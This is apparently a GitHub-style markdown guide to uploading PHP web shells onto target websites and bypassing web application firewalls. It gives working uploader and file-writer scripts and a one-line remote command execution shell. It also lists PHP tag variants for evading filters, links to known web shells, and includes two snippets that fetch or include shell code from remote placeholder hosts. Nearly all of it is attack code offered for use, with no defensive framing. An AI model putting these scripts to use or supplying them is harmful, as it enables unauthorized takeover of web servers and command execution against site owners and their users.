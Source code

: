 # PHP Shell Uploading Scripts and Bypass
### Uploader
1. Normal File Uploader
>

    <?php 
        echo 'Uploader<br>';
        echo '<form action="" method="post" enctype="multipart/form-data">';
        echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" value="Upload"></form>';
        if( $_POST['_upl'] == "Upload" ) {
            if(copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) {
                echo '<b>Success</b><br><br>';
            }else {
                echo '<b>Failed</b><br><br>'; 
            }
	}
    ?>

2. CSRF File Uploader

>This uploader bypasses content length if the normal file uploader code is too long. To access this, open the file where you save it and do a CSRF with POST file value of `file`.

	
    <?php
    	copy($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    ?>
> This saves your file to the same directory of the uploader.    
3. File Get Contents
>

    <?php
    	file_put_contents(file_get_contents('https://somesite.com/shell.txt'),'shell.php');
    ?>
> Will work if `allow_url_fopen` is on. Upload this as up.php then open it. It will automatically generate a file named shell.php on the same directory.

4. File Writer ([link](https://github.com/alita-ido/PHP-File-Writer))
>If you managed to make a file uploader but it doesn't work, maybe the site does not allow uploading. Some sites don't enable upload functions, hence `move_uploaded_files` and `copy_uploaded_files` will not work. File writer works by using different command (`fwrite`).


    <?php
        $a = $_POST['code'];
        $file = fopen($_POST['file'],'w');
        fwrite($file,$a);
        fclose($file);
    ?>
    <center>
      <form method="post" id="form">
        <h2>File Writer</h2>
        File Name<br><input type="text" name="file" placeholder="shell.php"><br>
        Shell Code<br><textarea name="code" form="form" placeholder="Paste your shell here"></textarea><br>
        <input type="submit" value="Write">
      </form>
    </center>
If all of the above fails or is blocked by WAF, try using other php notations.

a. `<?php echo 'sample'; ?>` - normal one

b. `<? echo 'sample'; ?>` - will work if short_open_tag is enabled

c. `<% echo 'sample'; %>` - PHP < 7.0.0

d. `<script language="php"> echo 'sample'; </script>` - PHP < 7.0.0

### Shell Codes I use
1. [b374k](http://www.topshellv.com/shell/b374k-shell)
> This shell is large >900kb. The size is large which gives room to more functionality. But more functionality means more functions used, and more functions used results to more `DISABLE_FUNCTIONS` which might result again to error in shell or blocked by WAF.

2. [RBBD priv8 shell](https://github.com/iamhex/Priv8-Shell-v3)
> I think this is a "so called" bypass shell.It is light weight, around ~70kb. I think it is based on wso.php web shell

3. [b374k-mini](https://github.com/The404Hacking/b374k-mini/)
> File size is ~14kb and bypasses as well some WAFs while uploading

4. RCE shell
> I use this when we need to  upload a shell with very small file size

	<?=`$_GET[1]`?>
> This is a shorthand notation for `<?php echo shell_exec($_GET['1']);?>`. But note that this only works if `shell_exec` is not in the `DISABLE_FUNCTIONS` in phpinfo. To access this, just /shell.php?1=whoami

5. Include
> Used for bypassing file size as well due to its small size.

	<?php include('https://somewebshell.com/shell.txt');?>
    
> This will work only if `allow_url_include` is ON in phpinfo.
